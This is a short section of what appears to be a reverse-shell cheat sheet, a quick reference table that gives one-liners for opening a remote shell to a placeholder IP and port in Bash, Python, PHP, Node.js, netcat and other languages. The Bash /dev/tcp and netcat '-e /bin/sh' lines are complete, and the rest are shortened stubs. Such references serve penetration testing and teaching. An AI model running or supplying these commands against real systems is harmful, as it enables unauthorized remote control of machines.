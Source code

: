 ***

### XVI. 🧰 Quick Reference Table

| Language   | Command                                   |
| ---------- | ----------------------------------------- |
| Bash       | `bash -i >& /dev/tcp/IP/PORT 0>&1`        |
| Python     | `python3 -c 'import socket,os,pty;...'`   |
| PHP        | `php -r '$sock=fsockopen("IP",PORT);...'` |
| PowerShell | TCPClient reverse                         |
| Node.js    | `node -e "net.connect(...)"`              |
| Go         | Dial and spawn shell                      |
| Perl       | TCP socket with `/bin/sh`                 |
| Netcat     | `nc -e /bin/sh IP PORT`                   |

***
